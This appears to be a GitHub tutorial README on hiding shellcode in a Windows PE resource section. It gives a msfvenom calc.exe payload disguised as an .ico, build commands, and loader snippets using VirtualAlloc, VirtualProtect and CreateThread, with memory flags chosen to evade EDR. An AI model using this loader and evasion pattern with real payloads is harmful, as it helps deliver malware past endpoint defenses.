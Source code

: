 # DropperResourceSection
where the Dropper is saved in the resource Section


Which sections of the PE we can put our code into


Today Lets try to understand different sections where the malicious payload or we can place the code or shellcode in the PE file.

PE has many sections , but her we would be concentrating on main three sections. Which are ...  

1. .text
2. .data
3. .rsrc

To do that lets create a simple code which helps us to understand more , for this we need visual studio (or gcc compiler being installed and use it to compile and create an exe file to run) and x64dbg
https://x64dbg.com/ to download the x64dbg debugger and installation is simple 

![image](https://github.com/user-attachments/assets/f97d1670-b7cb-4668-ad9d-2ac625eadeb4)

It's just a simple diagram which shows the different sections we would be seeing in the PE file.

so we shall first discuss on steps 
1. what API methods are used to allocate a space in the process memory  
2. move our payload into the virtually allocated memory  
3. Then how to provide the permissions after that we can also see the x64dbg being used to see the payload placement.
4. Create a Threat inside the current Process. 


VirutallAlloc is an API which is defined in Kernel32.dll, which allocates a memory in the process we mention

		void * exec_memory;
		
		LPVOID VirtualAlloc( 		
		  LPVOID lpAddress,                // Starting address from which the allacotion should happen , exmple a memory  
		  SIZE_T dwSize,                  // Size of the memory to be allocated   
		  DWORD  flAllocationType,        // What kind of allocation for the memory to be allocated like MEM_COMMIT, MEM_RESERVE 
		  DWORD  flProtect                // Memory Protection to be allocated PAGE_EXECUTE , PAGE_READWRITE etc 
		  );  


Sample line of code =>  

	exec_memory = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);  
 
 Here we are allocting the memory from 0 address until payload_len, we are having a allocation type as MEM_COMMIT and MEM_RESERVE and giving the permission as PAGE_READWRITE just to avoid the EDR triggering as suspicious if the allocated memory is given directly as PAGE_EXECUTE  

We can find more detailed information in the link [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

Next API Used is RtlMoveMemory, which is used to copy the payload from Source to Destination

		VOID RtlMoveMemory( 		
		  VOID UNALIGNED *Destination,   // Where to move the memory  
		  const VOID UNALIGNED *Source,   // From where to move the payload 
		  SIZE_T         Length           //size of the payload  
		  );  


Sample line of code =>  

	RtlMoveMemory(exec_memory, payload, payload_len); 
 
Here the payload is moved to address pointed or allocated from the VirtualAlloc API  

We can find more detailed information in the link [RtlMoveMemory](https://learn.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)

Next API is VirtualProtect, which Changes the protection on a region of committed pages in the virtual address space of the calling process.

		BOOL VirtualProtect(		
		  [in]  LPVOID lpAddress,    // Source address or address to which we need to change the protection or permission  
		  [in]  SIZE_T dwSize,       // Size of the memory to change the protect
		  [in]  DWORD  flNewProtect, // New Protection we apply from the old protection
		  [out] PDWORD lpflOldProtect // A pointer to a variable that receives the previous access protection value, that is initial page 
		  );  

Sample line of code => 

	rv = VirtualProtect(exec_memory, payload_len, PAGE_EXECUTE_READ, &oldprotect);  
 
 the exec_mem which has the payload or pointing to the payload had a protection PAGE_READWRITE initially and now its being changed to PAGE_EXECUTE_READ

We can find more detailed information in the link [VirtualProtect](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)

Next API would be CreateThread, which creates thread in the process 

	HANDLE CreateThread(  
	  [in, optional]  LPSECURITY_ATTRIBUTES   lpThreadAttributes,     // A pointer to a SECURITY_ATTRIBUTES structure that determines whether the returned handle can be inherited by child processes.  
	  [in]            SIZE_T                  dwStackSize,    // The initial size of the stack, in bytes  
	  [in]            LPTHREAD_START_ROUTINE  lpStartAddress, //   This pointer represents the starting address of the thread  
	  [in, optional]  __drv_aliasesMem LPVOID lpParameter,    //  A pointer to a variable to be passed to the thread.  
	  [in]            DWORD                   dwCreationFlags,  // The flags that control the creation of the thread  
	  [out, optional] LPDWORD                 lpThreadId   //  A pointer to a variable that receives the thread identifier  
	);   

Sample line of code => 

	th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) exec_memory, 0, 0, 0); 
 
 LPTHREAD_START_ROUTINE  Points to a function that notifies the host that a thread has started to execute and exec_mem start of payload to start

We can find more detailed information in the link [CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)


Now lets try to understand how to use the resource , here we have calc.ico which is the payload which we insert into the rsrc section. 

1. Lets see how to generate that , for this i am using msfvenom to generate a shellcode which launches the calc.exe on windows and output is bin file. 

   		msfvenom -p windows/exec CMD=calc.exe -f raw -o calc_shellcode.bin

   we are generate a raw ouptut , the -p represents the command which is windows/exec with the input CMD=calc.exe , -f indicates the format of the output which is in raw format and -o indicates the output file and here we have clac_shellcode.bin as output

2. Lets take the input and run a python code named bintoico.py and it genrates the calc.ico, the code does the simple work of reading the file in binary format (rb) and add the header details to make it the ico format
   
3. Now we create two files resource.h and resource.rc
     a. The resource.h consisit of the code , which just define the CALC_ICO  equal to 100. We consider this as resource identifier for our example
   
   		#define CALC_ICO 100

     b. The resource.rc file consist of the statement.

		#include "resources.h"
		CALC_ICO RCDATA calc.ico


    The value "RCDATA" indicates i am creating a binary format data and naming it as CALC_ICO and the file is calc.ico (we can provide the specific path , since the file is in 
    the current directory, provided the name)

4. Lets check on how to compile them and keep them in PE so the PE can refer it later and place them in the rsrc section
   
		rc resource.rc

   	Which means compile the resource.rc and gives us the resource.res

6. Once the resource.res is generated we would be providing it as an input to the the other command  

		cvtres /MACHINE:x64 /OUT:resources.o resources.res

	This command converts the given the resource file resource.res to resource.o , which is an object file. later we would be adding this to our compiled code
7. Here comes the main compiler command which mentiones to add the resource.o to the script while compiling
   
		cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcresourceimplant.cpp /link /OUT:resourceimplant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 resources.o

   Everything after the link is important which are sent to the linker (link.exe)

 		/OUT:resourceimplant.exe  output as resourceimplant.exe

   		/SUBSYSTEM:CONSOLE - create a code for Console

   		/MACHINE:x64 machine architecture 64 bit and

   		then the resource file to be linked is resources.o


Understanding the line of Code which are important to the resource access 

		res = FindResource(NULL, MAKEINTRESOURCE(CALC_ICO), RT_RCDATA);
		resHandle = LoadResource(NULL, res);
		payload = (char *) LockResource(resHandle);
		payload_len = SizeofResource(NULL, res);		


  To understand more on the [FindResource](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-findresourcea)
	

		HRSRC FindResourceA(
		  [in, optional] HMODULE hModule,
		  [in]           LPCSTR  lpName,
		  [in]           LPCSTR  lpType
		);

 Lets go through each parameter   
  
  		Simple , hModule = if its NUll , it searches the resource file in the current process else the Handle provided   
   		lpName - its the resource Number which we have defined in the resources.h and also remember we have compiled before 
     	lptype - Type of data , we know we had declared in resource.rc as RCDATA , here we have RT_RCDATA which means arbitary raw data
       
   		
